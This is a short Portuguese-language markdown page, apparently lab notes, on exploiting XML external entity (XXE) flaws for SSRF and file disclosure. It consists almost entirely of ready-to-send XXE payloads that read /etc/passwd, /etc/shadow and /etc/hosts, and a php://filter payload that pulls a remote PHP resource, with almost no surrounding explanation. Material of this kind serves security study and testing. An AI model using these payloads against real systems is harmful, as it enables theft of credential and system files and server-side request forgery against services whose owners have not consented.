 # Para explorar a vulnerabilidade XXE, execute os xmls abaixo para anlise do retorno.

## Explorando XXE para realizar ataques SSRF

**Payload**

Para a anlise da vulnerabilidade utilizei o payload abaixo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Abaixo demais exemplos de Payloads.

**XXE: File Disclosure** *(Exibição do conteúdo de Arquivo)*

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hosts"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

**XXE: Access Control Bypass (Loading Restricted Resources - PHP example)** *(XXE: Bypass de controle de acesso (carregando recursos restritos - exemplo PHP)*

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```